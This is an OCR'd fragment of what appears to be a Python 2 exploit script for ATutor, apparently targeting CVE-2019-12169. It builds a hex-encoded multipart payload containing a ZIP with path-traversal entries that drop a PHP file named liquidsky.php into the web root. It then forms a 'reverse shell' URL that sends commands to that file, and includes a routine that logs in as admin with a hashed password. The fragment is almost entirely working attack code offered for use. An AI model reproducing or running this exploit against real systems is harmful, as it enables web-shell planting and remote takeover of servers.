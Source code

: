     data += "\x5c\x2e\x2e\x5c\x2e\x2e\x5c\x2e\x2e\x2f\x78\x61\x6d\x70\x70"
    data += "\x5c\x68\x74\x64\x6f\x63\x73\x5c\x6c\x69\x71\x75\x69\x64\x73"
    data += "\x6b\x79\x2e\x70\x68\x70\x50\x4b\x01\x02\x14\x03\x14\x00\x00"
    data += "\x00\x08\x00\xa4\x00\xb8\x4e\xbb\xb9\x35\x2d\x6a\x00\x00\x00"
    data += "\x6a\x00\x00\x00\x2c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
    data += "\x00\x80\x01\xb4\x00\x00\x00\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x2e"
    data += "\x2f\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x2e\x2f\x76\x61\x72\x2f\x77"
    data += "\x77\x77\x2f\x68\x74\x6d\x6c\x2f\x6c\x69\x71\x75\x69\x64\x73"
    data += "\x6b\x79\x2e\x70\x68\x70\x50\x4b\x05\x06\x00\x00\x00\x00\x02"
    data += "\x00\x02\x00\xb4\x00\x00\x00\x68\x01\x00\x00\x00\x00\x0d\x0a"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x43"
    data += "\x56\x45\x32\x30\x31\x39\x31\x32\x31\x36\x39\x0d\x0a\x43\x6f"
    data += "\x6e\x74\x65\x6e\x74\x2d\x44\x69\x73\x70\x6f\x73\x69\x74\x69"
    data += "\x6f\x6e\x3a\x20\x66\x6f\x72\x6d\x2d\x64\x61\x74\x61\x3b\x20"
    data += "\x6e\x61\x6d\x65\x3d\x22\x73\x75\x62\x6d\x69\x74\x22\x0d\x0a"
    data += "\x0d\x0a\x49\x6d\x70\x6f\x72\x74\x0d\x0a\x2d\x2d\x2d\x2d\x2d"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x43\x56\x45\x32\x30\x31"
    data += "\x39\x31\x32\x31\x36\x39\x2d\x2d\x0d\x0a"


    #reverse shell url
    shell = "http://" + target + "/liquidsky.php?language=" + commands

    # Generate Hash
    def gen_hash(passwd, token):
            m= hashlib.sha1()
            m.update(passwd + token)
            return m.hexdigest()
     
    def we_can_get_jiggy_with_the_pass():

    # Run pass through SHA1
         hash_object = hashlib.sha1(password)
         hex_dig = hash_object.hexdigest()
         print "[*] Got SHA1 for pass: " + (hex_dig)

         targeturl = "http://" + target + "/ATutor/login.php"
         token = "abc"
         hashed = gen_hash(hex_dig, token)
         d = {
             "form_password_hidden" : hashed,
             "form_login": "admin",
             "submit": "Login",
             "token" : token
         }
         s = requests.Session()

    #Logging in
         r = s.post(targeturl, data=d)
         print "[+] Logging in to system as %s ..." % (username)
         res = r.text

